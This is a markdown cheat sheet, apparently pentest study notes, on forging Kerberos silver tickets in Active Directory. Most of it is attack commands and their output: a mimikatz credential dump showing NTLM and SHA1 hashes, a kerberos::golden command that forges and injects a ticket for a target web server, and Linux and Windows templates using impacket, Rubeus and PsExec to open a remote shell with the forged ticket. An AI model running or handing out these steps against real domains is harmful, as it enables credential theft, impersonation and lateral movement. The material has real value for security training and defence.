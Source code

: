 # Silver Tickets

In general, we need to collect the following three pieces of
information to create a silver ticket:

- SPN password hash
- Domain SID
- Target SPN

```markdown
**Dump all spn password hashes from mimikatz-

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 1147751 (00000000:00118367)
Session           : Service from 0
User Name         : iis_service
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/14/2022 4:52:14 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1109
        msv :
         [00000003] Primary
         * Username : iis_service
         * Domain   : CORP
         * NTLM     : 4d28cf5252d39971419580a51484ca09
         * SHA1     : ad321732afe417ebbd24d5c098f986c07872f312
         * DPAPI    : 1210259a27882fac52cf7c679ecf4443**
```

```markdown

**Enuemrating Sid of user-

whoami /user

USER INFORMATION
----------------

User Name SID
========= =============================================
corp\jeff S-1-5-21-1987370270-658905905-1781884369-1105**
```

```markdown
Now that we have collected all three pieces of information, we can build the command to create a silver ticket with Mimikatz. We can create the forged service ticket with the kerberos::golden module. This module provides the capabilities for creating golden and silver tickets alike. We'll explore the concept of golden tickets in the Module Lateral Movement in Active Directory.

We need to provide the domain SID (/sid:), domain name (/domain:), and the target where the SPN runs (/target:). We also need to include the SPN protocol (/service:), NTLM hash of the SPN (/rc4:), and the /ptt option, which allows us to inject the forged ticket into the memory of the machine we execute the command on.

Finally, we must enter an existing domain user for /user:. This user will be set in the forged ticket. For this example, we'll use jeffadmin. However, we could also use any other domain user since we can set the permissions and groups ourselves.

kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
User      : jeffadmin
Domain    : corp.com (CORP)
SID       : S-1-5-21-1987370270-658905905-1781884369
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 4d28cf5252d39971419580a51484ca09 - rc4_hmac_nt
Service   : http
Target    : web04.corp.com
Lifetime  : 9/14/2022 4:37:32 AM ; 9/11/2032 4:37:32 AM ; 9/11/2032 4:37:32 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'jeffadmin @ corp.com' successfully submitted for current session
```

Now the ticket should be stored in memory-

klist

Let's verify our access using the same command as before.

iwr -UseDefaultCredentials [http://web04](http://web04/)

### On Linux

`python ticketer.py -nthash <HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn <SERVICE_PRINCIPAL_NAME> <USER>
export KRB5CCNAME=/root/impacket-examples/<TICKET_NAME>.ccache 
python psexec.py <DOMAIN>/<USER>@<TARGET> -k -no-pass`

### 

### On Windows

```
# Create the ticket
mimikatz.exe "kerberos::golden /domain:<DOMAIN> /sid:<DOMAIN_SID> /rc4:<HASH> /user:<USER> /service:<SERVICE> /target:<TARGET>"

# Inject the ticket
mimikatz.exe "kerberos::ptt <TICKET_FILE>"
.\Rubeus.exe ptt /ticket:<TICKET_FILE>

# Obtain a shell
.\PsExec.exe -accepteula \\<TARGET> cmd
```